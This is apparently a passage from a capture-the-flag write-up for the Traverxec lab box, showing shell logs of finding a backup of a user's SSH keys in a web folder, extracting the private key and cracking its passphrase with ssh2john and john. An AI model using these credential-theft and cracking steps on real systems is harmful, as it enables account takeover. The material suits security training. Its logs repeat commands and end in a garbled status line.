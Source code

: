 ### public folders

go here `/home/david/public_www`

```bash
cd /home/david/public_www
ls
ls
index.html  protected-file-area
ls -al
ls -al
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
cd protected-file-area
cd protected-file-area
ls
ls
backup-ssh-identity-files.tgz
www-data@traverxec:/home/david/public_www/protected-file-area$
```

## PRIVESC USER

### ssh keys

From `/home/david/public_www` folder we found a backup of the users ssh keys.

Copy *.tgz to /tmp and then untar

```bash
tar xvf backup-ssh-identity-files.tgz 
tar xvf backup-ssh-identity-files.tgz 
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

copied `id_rsa` to local machine, then `ssh -i ./id_rsa david@10.10.10.165`

using the `.htpasswd` cracked hash doesn't work, so we try to crack the private key itself `id_rsa`

use `ssh2john` to convert the `id_rsa` file to john crackable format: `python2 /usr/share/john/ssh2john.py ../keys/id_pub > id_pub.hash`

```bash
RxHackk 福 ~/Repos/RxHack/HTB/BOXES/TRAVERXEC/crack ➤ 431f6ec|main⚡
697 💀 ± ➤ john --wordlist=/usr/share/wordlists/rockyou.txt id_pub.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (../keys/id_pub)
1g 0:00:00:36 DONE (2022-04-05 21:33) 0.02737g/s 392600p/s 392600c/s 392600C/sa6_123..*7¡Vamos!
Session completed
```
